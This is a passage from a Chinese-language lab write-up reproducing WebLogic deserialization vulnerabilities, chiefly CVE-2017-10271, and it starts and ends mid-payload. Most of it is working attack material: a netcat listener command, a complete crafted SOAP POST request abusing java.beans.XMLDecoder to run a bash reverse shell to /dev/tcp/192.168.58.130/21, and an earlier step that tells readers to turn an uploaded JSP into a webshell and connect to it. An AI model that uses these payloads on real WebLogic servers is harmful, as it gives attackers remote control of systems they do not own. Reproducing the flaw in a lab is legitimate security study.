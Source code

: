 ```php
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

**访问 http://192.168.59.128:7001/bea_wls_internal/test.jsp ，打印成功，可再将红框里面内容构造成一句话，再用webshell连接工具连接！**





##  **WebLogic反序列化远程命令执行漏洞**

- **编号：CVE-2017-10271**
- **影响版本：10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3**
- **本质为任意文件上传漏洞**

**漏洞原因:**

#### **漏洞复现**

##### **方法一、**

 **1、初次判断：**

**先利用Java反序列化工具检测发现漏洞**

**![image-20210404002922075](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404002922075.png)**

- **尝试访问`http://IP/wls-wsat/CoordinatorPortType11`可能存在漏洞**

**![image-20210404001113478](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404001113478.png)**

**2、kali开启监听，监听端口 21**

```
nc -l -p 21
```

**3、构造POST包进行测试，反弹shell**

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.58.128:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.58.130/21 0&gt;&amp;1</string> 
```